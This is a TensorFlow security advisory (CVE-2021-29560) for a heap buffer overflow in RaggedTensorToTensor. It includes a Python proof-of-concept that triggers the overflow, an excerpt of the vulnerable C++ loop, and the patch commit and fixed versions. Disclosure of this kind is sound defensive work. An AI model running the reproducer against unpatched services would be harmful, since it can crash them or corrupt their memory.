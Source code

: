 ## TFSA-2021-048: Heap buffer overflow in `RaggedTensorToTensor`

### CVE Number
CVE-2021-29560

### Impact
An attacker can cause a heap buffer overflow in
`tf.raw_ops.RaggedTensorToTensor`:

```python
import tensorflow as tf

shape = tf.constant([10, 10], shape=[2], dtype=tf.int64)
values = tf.constant(0, shape=[1], dtype=tf.int64)
default_value = tf.constant(0, dtype=tf.int64)
l = [849, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
row = tf.constant(l, shape=[5, 43], dtype=tf.int64)
rows = [row]
types = ['ROW_SPLITS']

tf.raw_ops.RaggedTensorToTensor(
    shape=shape, values=values, default_value=default_value,
    row_partition_tensors=rows, row_partition_types=types)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/d94227d43aa125ad8b54115c03cece54f6a1977b/tensorflow/core/kernels/ragged_tensor_to_tensor_op.cc#L219-L222)
uses the same index to access two arrays in parallel:

```cc
for (INDEX_TYPE i = 0; i < row_split_size - 1; ++i) {
  INDEX_TYPE row_length = row_split(i + 1) - row_split(i);
  INDEX_TYPE real_length = std::min(output_size, row_length);
  INDEX_TYPE parent_output_index_current = parent_output_index[i];
  ...
}
```

Since the user controls the shape of the input arguments, an attacker could
trigger a heap OOB access when `parent_output_index` is shorter than
`row_split`.

### Patches
We have patched the issue in GitHub commit
[a84358aa12f0b1518e606095ab9cfddbf597c121](https://github.com/tensorflow/tensorflow/commit/a84358aa12f0b1518e606095ab9cfddbf597c121).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
